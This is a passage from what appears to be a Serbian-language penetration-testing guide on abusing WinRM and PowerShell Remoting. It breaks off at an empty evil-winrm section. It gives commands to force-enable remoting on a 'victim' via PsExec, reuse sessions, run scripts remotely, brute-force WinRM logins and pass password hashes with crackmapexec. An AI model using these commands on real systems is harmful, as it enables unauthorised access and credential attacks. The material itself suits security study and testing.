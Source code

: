 **Sesija će se pokrenuti u novom procesu (wsmprovhost) unutar "žrtve"**

### **Prisiljavanje WinRM-a da se otvori**

Da biste koristili PS Remoting i WinRM, ali ako računar nije konfigurisan, možete ga omogućiti sa:
```bash
.\PsExec.exe \\computername -u domain\username -p password -h -d powershell.exe "enable-psremoting -force"
```
### Čuvanje i obnavljanje sesija

Ovo **neće raditi** ako je **jezik** **ograničen** na udaljenom računaru.
```bash
#If you need to use different creds
$password=ConvertTo-SecureString 'Stud41Password@123' -Asplaintext -force
## Note the ".\" in the suername to indicate it's a local user (host domain)
$creds2=New-Object System.Management.Automation.PSCredential(".\student41", $password)

#You can save a session inside a variable
$sess1 = New-PSSession -ComputerName <computername> [-SessionOption (New-PSSessionOption -ProxyAccessType NoProxyServer)]
#And restore it at any moment doing
Enter-PSSession -Session $sess1
```
Unutar ovih sesija možete učitati PS skripte koristeći _Invoke-Command_
```bash
Invoke-Command -FilePath C:\Path\to\script.ps1 -Session $sess1
```
### Greške

Ako pronađete sledeću grešku:

`enter-pssession : Povezivanje sa udaljenim serverom 10.10.10.175 nije uspelo sa sledećom porukom o grešci : WinRM klijent ne može obraditi zahtev. Ako je šema autentifikacije drugačija od Kerberosa, ili ako klijentski računar nije pridružen domeni, tada se mora koristiti HTTPS transport ili odredišna mašina mora biti dodata u TrustedHosts konfiguraciju. Koristite winrm.cmd za konfiguraciju TrustedHosts. Imajte na umu da računari na listi TrustedHosts možda neće biti autentifikovani. Možete dobiti više informacija o tome pokretanjem sledeće komande: winrm help config. Za više informacija, pogledajte temu pomoći about_Remote_Troubleshooting.`

Pokušajte na klijentu (informacije iz [ovde](https://serverfault.com/questions/657918/remote-ps-session-fails-on-non-domain-server)):
```ruby
winrm quickconfig
winrm set winrm/config/client '@{TrustedHosts="Computer1,Computer2"}'
```
## WinRM veza u linuxu

### Brute Force

Budite oprezni, brute-forcing winrm može blokirati korisnike.
```ruby
#Brute force
crackmapexec winrm <IP> -d <Domain Name> -u usernames.txt -p passwords.txt

#Just check a pair of credentials
# Username + Password + CMD command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -p <password> -x "whoami"
# Username + Hash + PS command execution
crackmapexec winrm <IP> -d <Domain Name> -u <username> -H <HASH> -X '$PSVersionTable'
#Crackmapexec won't give you an interactive shell, but it will check if the creds are valid to access winrm
```
### Korišćenje evil-winrm
```ruby
```